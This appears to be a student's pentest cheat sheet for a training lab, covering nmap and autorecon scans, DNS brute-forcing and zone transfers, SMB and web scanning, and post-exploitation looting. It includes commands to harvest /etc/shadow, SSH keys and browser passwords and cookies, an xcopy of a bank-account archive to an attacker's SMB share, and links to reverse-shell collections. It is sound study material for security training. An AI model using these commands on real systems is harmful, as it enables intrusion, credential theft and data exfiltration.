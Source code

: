 \pagenumbering{gobble} 

# Cheat Sheet
## Common Commands and Methodologies

## RECON
Before starting the lab, do a full scan to find low hanging fruit.
"At this stage, using tools such as nmap/arp-scan/netdiscover would be useful to see all the machines in the subnet which we would have access to, then start port scanning for key services (DNS, FTP, HTTP/HTTPS, NetBIOS, SSH/rDesktop/VNC)" -g0tm1lk (i think)

Also open up this checklist for enumeration, its pretty good! github.com/theonlykernel/enumeration/wiki 
### Autorecon
Before doing anything probably start an autorecon scan. It gives a ton of info and can be pretty useful. It also sets up folders nicely for the rest of the pentest.

### Nmap Scanning
Start with a quick-ish nmap scan, then after run a more intense scan in the background.\
First Scan:\
`$ sudo nmap -sV -v -sC -oA 10.11.1.72-top1000 10.11.1.72`

Full TCP scan:\
`$ sudo nmap -sV -sT -p- -v -oA 10.11.1.72-tcp 10.11.1.72`

Full UDP scan (because g0tm1lk said "Don't forget about UDP (*cough* because we haven't *cough*)":\
`$ sudo nmap -sV -sU -p- -v -oA 10.11.1.72-udp 10.11.1.72`

After you scan ALL the ports, you can run the original nmap command but on the list of open ports. 
`nmap 10.11.1.72 -p 22,25,80,110,111,119,2049,4555 -sV -sC -v -oA foundports-aggressive`

The correct way to domb this is probably unicorn scan to get open ports, then nmap aggressive scan on all the open unicorn ports.
This can be done with onetwopunch, but I should write my own script to do this maybe.

### DNS
dns and revrese dns lookup and zone transfer:\
reverse dns lookup bruteforce:\
```
for ip in $(seq 50 100); do host 38.100.193.$ip; done | grep -v "not found"
```
dns lookup bruteforce:\
```
for ip in $(cat usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt); do host $ip.megacorpone.com; done
```
find name server:
```
host -t ns megacorpone.com | cut -d " " -f 4
ns1.megacorpone.com.
ns2.megacorpone.com.
ns3.megacorpone.com.
```
zone transfer:\
```
host -l <domain name> <dns server address>
host -l megacorpone.com ns1.megacorpone.com
```
### Vulnerability scanning
You should also run specific tools/nmap scripts based on what ports are open. Autorecon does some of this, and it also gives you recommendations on tools to run. If you want to do it 100% manually, take a look at the service-scans-default.toml file that comes with autorecon. It bascially tells you what to run based on what services are being run on each port (even though it does this automatically, scripts can make mistakes, so if you are stuck try double checking.)
#### ftp
you need to connect using telnet cause it needs the newline character 0x0d 0x0a. You can also use the ftp commmand. Ftp servers let you log in as the anonymous if it is configured (both username and password are anonymous).
Once you are anon, you should see if you can upload. If not, then just look around for interesting files that you can read. (use `DIR` to view files, and `put {filename}` to upload a file. 
#### smb
Find smb vulns:
`nmap -v -p 139,445 --script=smb-vuln* --script-args=unsafe=1 <ip>`

#### nfs
#### smtp
#### snmp

#### web app
nitko is a general vuln scanner:\
`nikto -host=http://www.megacorpone.com -maxtime=30s`

Dirbuster is a gui app that bruteforces directories. Run with dirbusters medium wordlist and it should be fine.

Check ssl cert.

SSl server test: https://www.ssllabs.com/ssltest/

### Quick Privesc Graph

![](../images/win_priv.jpeg)


### Post Explotation Enumeration

#### Linucks
post enumeration save all passwords and hashes (/etc/shadow, /etc/passwd), ssh public key fingerprints, etc. Check connections to other machines in the network `netstat -antup` (you may also see sql running with this, if it is connect to it and read the database info, it could have some interesting stuff!), check all home folders `ls -lahR /home`, check cronjobs, check if xorg ix running `pgrep -l x` and if so, then we can check browser loot like passwords history and cookies (i know almost as a fact that some cookie passwords are reused, such as on the box that is friends with alice supposedly) etc. Also save privesc script outputs to my local machine. 
Find pgpkeys, ssh keys, backups and passwords:\
`find / \( -name ".ssh" -o -name ".gnupg" -o -name "*.bak" \)`\
`find / -name password*`
https://github.com/mubix/post-exploitation/wiki/Linux-Post-Exploitation-Command-List#collecting_info

#### Winblows
https://github.com/emilyanncr/Windows-Post-Exploitation
Setup smb to transfer file to and from machne. Transfer from windows to linux:\
`bash> mkdir /tmp/share`
`bash> impacket-smbserver share /tmp/smb`
`C:\>xcopy bank-account.zip \\192.168.119.161\share\bank`


### Other Useful Stuff:
Spawn tty shell:\
`$python -c 'import pty; pty.spawn("/bin/bash")'`

Payloads: [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)\
Reverse Shells: [PenTestMonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
Windows File Transfers (and other stuff, kinda like gtfobins for windows): [Lolbas](https://lolbas-project.github.io/)

















